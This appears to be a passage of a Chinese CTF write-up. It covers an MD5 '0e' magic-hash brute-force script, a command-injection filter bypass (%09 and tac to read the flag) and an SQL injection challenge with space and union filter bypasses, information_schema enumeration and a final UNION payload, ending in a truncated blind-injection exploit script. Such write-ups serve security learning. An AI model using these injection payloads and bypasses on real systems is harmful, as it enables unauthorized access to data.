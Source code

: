 ```python
		r = re.match('^0e[0-9]{30}', hashed_s)
		if r:
			print("[+] found! md5( {} ) ---> {}".format(result, hashed_s))
			exit(0)

		if i % 1000000 == 0:
			print("[+] current value: {}       {} iterations, continue...".format(result, str(i)))


if __name__ == '__main__':
	main()

# 0e215962017
```

**命令执行**

这里过滤了空格和cat，空格的话一搜就有很多，比如 `%09`，`${IFS}`等等，这里用 `%09` 为例，cat的话换成tac就可以了。

首先 ls 一下看见那个巨傻的flag名，然后 `tac%09flll*` 就可以读到flag了。

## 颜值成绩查询 - 14 solves

>Author: 52HeRtz

常规的 sql 注入题目，这里过滤了空格和union，同时检查了 UA，带 `sqlmap` 的就 die，所以无脑 `sqlmap` 是不行的。

解法：用 `/**/` 代替空格，双写 union 绕过: `uniunionon`

首先用order by把列数猜出来，这里是3，union 查询必须列数相等。

然后查表

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
绕过方式如上
```

查列

```sql
union select 1,2,group_concat(column_name) from information_schema.tables where table_name=flag
绕过方式如上
```

可以发现flag表中有flag和value，直接查value即可。

payload: 

```sql
?stunum=-1/**/uniounionn/**/select/**/1,2,value/**/from/**/flag#
```

后来发现好多人是盲注跑出来的，当然也可以，这里给出 `Y1ng` 师傅的 `exp`:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#颖奇L'Amore www.gem-love.com #转载请勿删除水印
import requests
from urllib.parse import *
res = ''
alphabet = ['{','}', '@', '_',',','a','b','c','d','e','f','j','h','i','g','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','G','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7','8','9']

for i in range(1,100):
	for char in alphabet:
		# information_schema,ctf
		# payload = "select/**/group_concat(schema_name)/**/from/**/information_schema.schemata"
```